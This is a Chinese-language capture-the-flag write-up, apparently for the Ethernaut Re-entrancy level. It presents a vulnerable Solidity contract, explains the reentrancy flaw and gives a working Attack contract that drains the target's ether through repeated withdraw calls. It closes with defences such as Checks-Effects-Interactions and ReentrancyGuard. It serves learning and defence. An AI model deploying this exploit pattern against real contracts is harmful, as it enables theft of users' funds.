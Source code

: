 # Re-entrancy

> 这一关的目标是偷走合约的所有资产.

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

## 攻击思路

和上一关异曲同工。合约中的提取withdraw函数可以进行重入攻击。函数逻辑中先进行转账后调整余额。合约收到余额后触发receive函数后可以再进行withdraw。此为重入攻击

## 攻击代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Reentrance{
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

// 实际攻击时应该再写一个只有合约owner才能调用的提取方法，把攻击得来的币提取出来，不过，太懒了算了。
contract Attack {
    address target = 0x0749abb39521c2Cc3a8942fa1d4fA450ee136995;

    function attack() public payable{
        (bool success,) = target.call{value:1000000000000000}(abi.encodeWithSelector(Reentrance.donate.selector, address(this)));
        require(success);
        (bool ok,) = target.call(abi.encodeWithSelector(Reentrance.withdraw.selector, 1000000000000000));
        require(ok);
    }

    receive() external payable{
        (bool ok,) = target.call(abi.encodeWithSelector(Reentrance.withdraw.selector, 1000000000000000));
        require(ok);
    }

}
```

为了防止转移资产时的重入攻击, 使用 [Checks-Effects-Interactions pattern](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) 注意 `call` 只会返回 false 而不中断执行流. 其它方案比如 [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) 或 [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) 也可以使用.

`transfer` 和 `send` 不再被推荐使用, 因为他们在 Istanbul 硬分叉之后可能破坏合约 [Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).

总是假设资产的接受方可能是另一个合约, 而不是一个普通的地址. 因此, 他有可能执行了他的payable fallback 之后又“重新进入” 你的合约, 这可能会打乱你的状态或是逻辑.

重进入是一种常见的攻击. 你得随时准备好!

#### The DAO Hack

著名的DAO hack 使用了重进入攻击, 窃取了受害者大量的 ether. 参见 [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942).